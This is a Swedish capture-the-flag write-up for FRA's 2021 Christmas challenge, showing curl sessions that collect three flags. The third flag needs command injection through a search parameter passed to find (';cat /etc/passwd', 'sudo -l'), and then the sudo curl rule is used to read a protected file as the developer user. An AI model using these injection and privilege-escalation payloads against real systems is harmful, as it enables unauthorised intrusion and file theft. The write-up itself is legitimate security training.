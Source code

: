 # Anteckningar genomgång av FRA Julknäck första advent 2021

Länk till CTF finns på [challenge.fra.se](https://challenge.fra.se/) och sen säger att CTF finns på extern webb på http://46.246.30.86/.

Bestämt mig för att försöka göra så mycket som möjligt av CTF:en från en [Docker](https://www.docker.com/)-container som kör [Kali](https://www.kali.org/) Linux. Börjar med att se till att ha ett alias klart:

    alias kali='docker run -it --rm --name kali kalilinux/kali'

Börjar med att uppdatera denna container och installera curl efter att ha kört aliaset ovan.

    apt update
    apt dist-upgrade -y
    apt install -y curl

Låt se hur svårt [FRA](https://www.fra.se) har gjort CTF:en.

    ┌──(root💀323736a03db8)-[/]
    └─# curl -i http://46.246.30.86/
	HTTP/1.1 200 OK
	Date: Sat, 27 Nov 2021 14:35:03 GMT
	Server: Apache/2.4.37 (centos)
	X-Powered-By: PHP/7.4.24
	Transfer-Encoding: chunked
	Content-Type: text/html; charset=UTF-8

    <!DOCTYPE html>
    <html>
    <head>
    <meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=no">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="HandheldFriendly" content="true">
    <style>
    body {
      background-color: white;
      position: relative;
      color: black;
      text-align: center;
    }
    form {
      position: relative;
    }
    </style>
    <img src="fra-logo.png" alt="DATA" width="400" height="200">
    </head>
    <body>
     <form method="GET">
     <input type="text" name="search" />
     <input type="Submit" value="Search">
    </form>
    
    <h1>Välkommen till vår mobilvänliga CTF!</h1>
    
    <h2>Det finns 3 flaggor att hämta.</h2>
    <h3>Flagga1: Närmare än vad du tror</h3>
    <h3>Flagga2: En sökning bort</h3>
    <h3>Flagga3: I developers home</h3>
    <!-- Flagga1 -->
    <!-- flagga{may_the_source_be_with_you} -->
    </body>

Första flaggan var väldigt lätt: **flagga{may_the_source_be_with_you}**

Vi har även fått tips om att söka efter flagga två och flagga tre är i "developers home". Låt oss börja med att söka. Testade *FRA* som första sökterm men det gav inget. Testade sedan *Flagga2*:

    ┌──(root💀323736a03db8)-[/]
    └─# curl http://46.246.30.86/?search=Flagga2
    <!DOCTYPE html>
    <html>
    <head>
    <meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=no">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="HandheldFriendly" content="true">
    <style>
    body {
      background-color: white;
      position: relative;
      color: black;
      text-align: center;
    }
    form {
      position: relative;
    }
    </style>
    <img src="fra-logo.png" alt="DATA" width="400" height="200">
    </head>
    <body>
     <form method="GET">
     <input type="text" name="search" />
     <input type="Submit" value="Search">
    </form>
     <div id="search_results"><h3>Sökresultat</h3><!--
    <p class="indent">./Flagga2</p><br>
     --></div>
    <h1>Välkommen till vår mobilvänliga CTF!</h1>
    
    <h2>Det finns 3 flaggor att hämta.</h2>
    <h3>Flagga1: Närmare än vad du tror</h3>
    <h3>Flagga2: En sökning bort</h3>
    <h3>Flagga3: I developers home</h3>
    <!-- Flagga1 -->
    <!-- flagga{may_the_source_be_with_you} -->
    </body>

Ovan ser vi ett dolt sökresultat med en del som ser ut som en sökväg nämligen **./Flagga2**. Hämta den sidan:

	┌──(root💀323736a03db8)-[/]
	└─# curl http://46.246.30.86/Flagga2
	flagga{Flagga3_is_in_developers_home}

Flagga två är därmed: **flagga{Flagga3_is_in_developers_home}**

Här verkade det hända något med servern under lördag eftermiddag (2021-11-27) och jag fick ta en paus. 

Fortsatte på tisdagen och då gick det bättre. Började med att söka efter en tom sträng.

    ┌──(root💀ae9d1c01fdfd)-[/]
    └─# curl -s -i 'http://46.246.30.86/?search='
    HTTP/1.1 200 OK
    Date: Tue, 30 Nov 2021 19:40:19 GMT
    Server: Apache/2.4.37 (centos)
    X-Powered-By: PHP/7.4.24
    Transfer-Encoding: chunked
    Content-Type: text/html; charset=UTF-8
    
    <!DOCTYPE html>
    <html>
    <head>
    <meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=no">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="HandheldFriendly" content="true">
    <style>
    body {
      background-color: white;
      position: relative;
      color: black;
      text-align: center;
    }
    form {
      position: relative;
    }
    </style>
    <img src="fra-logo.png" alt="DATA" width="400" height="200">
    </head>
    <body>
     <form method="GET">
     <input type="text" name="search" />
     <input type="Submit" value="Search">
    </form>
     <div id="search_results"><h3>Sökresultat</h3><!--
    <p class="indent">/usr/bin/find: missing argument to `-name'</p><br>
     --></div>
    <h1>Välkommen till vår mobilvänliga CTF!</h1>
    
    <h2>Det finns 3 flaggor att hämta.</h2>
    <h3>Flagga1: Närmare än vad du tror</h3>
    <h3>Flagga2: En sökning bort</h3>
    <h3>Flagga3: I developers home</h3>
    <!-- Flagga1 -->
    <!-- flagga{may_the_source_be_with_you} -->
    </body>

Vi kan se tecken på att **/usr/bin/find** anropas för att söka efter filer som ges som argument. Gjorde ett par försök att köra **find** med flaggan **-exec** men det resulterade i lite varningar. Testade istället att se om det gick att använda **;** för att köra valfritt kommando. Kör en echo på Hej och se om vi får tillbaka den.

	┌──(root💀ae9d1c01fdfd)-[/]
	└─# curl -s -i 'http://46.246.30.86/?search=-exec;echo%20Hej' | grep Hej
	<p class="indent">Hej</p><br>

Vi ska hitta flaggan i developers home. Så se om det finns en sådan användare på servern.

	┌──(root💀ae9d1c01fdfd)-[/]
	└─# curl -s -i 'http://46.246.30.86/?search=-exec;cat+/etc/passwd' | grep developer
	<p class="indent">developer:x:1001:1001::/home/developer:/bin/bash</p><br>
	<h3>Flagga3: I developers home</h3>

Finns en katalog för användaren *developer*. Kan vi hitta filen */home/developer/Flagga3* där?

	┌──(root💀ae9d1c01fdfd)-[/]
	└─# curl -s -i 'http://46.246.30.86/?search=*;ls+/home/developer/Flagga3' | grep developer
	<p class="indent">ls: cannot access '/home/developer/Flagga3': Permission denied</p><br>
	<h3>Flagga3: I developers home</h3>

För att komma åt den katalogen behöver vi exekvera kod som användaren *developer*. Kan vi göra sudo som användaren?

	┌──(root💀ae9d1c01fdfd)-[/]
	└─# curl -s -i 'http://46.246.30.86/?search=*;sudo+-l' | grep indent
	<p class="indent">Matching Defaults entries for apache on ctf:</p><br>
	<p class="indent">    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin</p><br>
	<p class="indent"></p><br>
	<p class="indent">User apache may run the following commands on ctf:</p><br>
	<p class="indent">    (developer) NOPASSWD: /usr/bin/curl</p><br>

Vi kan använda **/usr/bin/curl**. Finns även kommentar om det :)

	┌──(root💀ae9d1c01fdfd)-[/]
	└─# curl -s -i 'http://46.246.30.86/?search=*;sudo+-u+developer+/usr/bin/curl+-s+file:///home/developer/Flagga3' | grep flagga
	<p><a href="flagga{https://www.fra.se/jobbahososs.4.6a76c4041614726b25ad2.html}">flagga{https://www.fra.se/jobbahososs.4.6a76c4041614726b25ad2.html}</a></p><br>
	<!-- flagga{may_the_source_be_with_you} -->

Vi har nu Flagga3: **flagga{https://www.fra.se/jobbahososs.4.6a76c4041614726b25ad2.html}**

Det är en sida om att jobba på FRA:

	┌──(root💀ae9d1c01fdfd)-[/]
	└─# curl -s https://www.fra.se/jobbahososs.4.6a76c4041614726b25ad2.html | grep title | head -1
      	  <title>Jobba hos oss - FRA</title>

Flaggorna är alltså:

- flagga{may_the_source_be_with_you}
- flagga{Flagga3_is_in_developers_home}
- flagga{https://www.fra.se/jobbahososs.4.6a76c4041614726b25ad2.html}

